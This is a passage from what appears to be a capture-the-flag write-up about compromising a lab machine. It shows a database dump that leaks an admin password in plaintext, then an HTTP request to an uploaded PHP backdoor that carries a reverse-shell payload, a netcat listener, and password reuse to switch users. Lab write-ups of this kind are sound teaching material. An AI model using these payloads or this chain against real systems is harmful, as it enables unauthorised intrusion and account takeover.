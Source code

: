    --
    -- Table structure for table `login`
    --

    DROP TABLE IF EXISTS `login`;
    /*!40101 SET @saved_cs_client     = @@character_set_client */;
    /*!40101 SET character_set_client = utf8 */;
    CREATE TABLE `login` (
      `id` int(6) NOT NULL AUTO_INCREMENT,
      `username` varchar(50) NOT NULL,
      `password` varchar(100) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `username` (`username`)
    ) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
    /*!40101 SET character_set_client = @saved_cs_client */;

    --
    -- Dumping data for table `login`
    --

    LOCK TABLES `login` WRITE;
    /*!40000 ALTER TABLE `login` DISABLE KEYS */;
    INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
    /*!40000 ALTER TABLE `login` ENABLE KEYS */;
    UNLOCK TABLES;
    /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

    /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
    /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
    /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
    /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
    /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
    /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
    /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

    -- Dump completed on 2020-04-22  5:31:35
    </pre>

It is time to get a proper shell. We know that PHP is installed on the box (as
the web application is using PHP). So we use a PHP reverse shell and run
`nc -l -p 4242` on our side.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=php+-r+'$sock%3dfsockopen("10.10.14.226",4242)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs

That will give us a reverse shell as `www-data` without interactivity.
Using `/usr/bin/script -qc /bin/bash /dev/null` we get a better shell with
interactivity and can simply change user with `su theseus` and inputing his
password `Th3s3usW4sK1ng`

Then we can grab the user flag.
